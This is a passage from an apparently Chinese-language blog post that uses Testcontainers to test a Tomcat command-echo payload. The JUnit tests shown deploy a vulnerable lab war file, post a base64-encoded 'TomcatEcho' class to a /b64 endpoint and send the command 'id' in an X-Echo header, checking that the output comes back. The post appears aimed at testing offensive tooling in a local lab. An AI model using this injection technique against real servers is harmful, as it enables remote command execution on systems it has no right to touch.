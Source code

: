 接下来就是编写测试流程，通过 [Testcontainers](https://java.testcontainers.org/quickstart/junit_5_quickstart/) 启动环境并部署靶场，发送请求 assert 响应结果。

```java
@Slf4j
@Testcontainers
public class Tomcat8ContainerTest {
    public static final String imageName = "tomcat:8-jre8";

    @Container
    public final static GenericContainer<?> container = new GenericContainer<>(imageName)
            .withCopyToContainer(warFile, "/usr/local/tomcat/webapps/app.war") // 挂载靶场包
            .waitingFor(Wait.forHttp("/app")) // 等待靶场成功，/app 可访问
            .withExposedPorts(8080); // 暴露端口

    public static String getUrl(GenericContainer<?> container) {
        int port = container.getMappedPort(8080); // 获取 8080 随机映射端口
        String url = "http://127.0.0.1:" + port + "/app";
        log.info("container started, app url is : {}", url);
        return url;
    }

    @Test
    @SneakyThrows
    void testCommandEcho() {
        String url = getUrl(container);
        String content = DetectionTool.getBase64Class(TomcatEcho.class);
        RequestBody requestBody = new FormBody.Builder()
                .add("data", content)
                .build();
        Request request = new Request.Builder()
                .header("Content-Type", "application/x-www-form-urlencoded")
                .header("X-Echo", "id")
                .url(url + "/b64").post(requestBody)
                .build();
        try (Response response = new OkHttpClient().newCall(request).execute()) {
            System.out.println(container.getLogs()); // 打印 Tomcat 容器日志，在 TomcatEcho 加打印可以直接看
            assertThat(response.body().string(), anyOf(
                    containsString("uid=")
            ));
        }
    }
}
```

3s 左右就能跑完一个中间件的测试，香得一！！！

![test-speed](https://cdn.jsdelivr.net/gh/ReaJason/blog_imgs/TomcatEchoShell_img/test-speed.png)

接下来就是编写回显命令执行异常的回显情况，执行系统没有的命令

```java
@Test
@SneakyThrows
void testCommandEchoException() {
    String url = getUrl(container);
    String content = DetectionTool.getBase64Class(TomcatEcho.class);
    RequestBody requestBody = new FormBody.Builder()
            .add("data", content)
            .build();
    Request request = new Request.Builder()
            .header("Content-Type", "application/x-www-form-urlencoded")
            .header("X-Echo", "hello")
            .url(url + "/b64").post(requestBody)
            .build();
    try (Response response = new OkHttpClient().newCall(request).execute()) {
```